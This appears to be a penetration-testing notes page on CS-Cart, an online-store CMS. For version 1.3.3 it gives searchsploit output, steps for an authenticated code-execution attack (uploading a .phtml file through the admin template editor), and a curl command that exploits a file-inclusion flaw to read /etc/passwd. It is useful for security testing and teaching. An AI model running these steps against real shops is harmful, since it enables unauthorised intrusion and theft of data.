


# CS-Cart

CS-Cart is a web-based content management system focused on building and managing online stores and e-commerce websites. It provides features such as product catalog management, user administration, and customizable templates to streamline storefront creation and maintenance. CS-Cart operates over standard web ports, typically TCP `80` for HTTP and `443` for HTTPS, delivering content and processing user interactions through web protocols.

## Version Enumeration

<figure><figcaption></figcaption></figure>

## Authenticated RCE


```bash
$ searchsploit cs-cart 1.3.3
CS-Cart 1.3.3 - authenticated RCE | php/webapps/48891.txt
```


PoC [info](https://gist.github.com/momenbasel/ccb91523f86714edb96c871d4cf1d05c):

1. Login via `<target>/admin.php` and go to _Look and Feel_ → _Template editor_
2. Upload the malicious `.php` file (rename it to `.phtml`)
3. Call the file via the appropriate path, e.g. , `http://<target>/skins/malicious.phtml`

<figure><figcaption></figcaption></figure>

## Unauthenticated RFI


```bash
$ searchsploit cs-cart 1.3.3
CS-Cart 1.3.3 - 'classes_dir' Remote File Inclusion | php/webapps/1872.txt

$ curl -s 'http://pgbox/classes/phpmailer/class.cs_phpmailer.php?classes_dir=/etc/passwd%00'
```

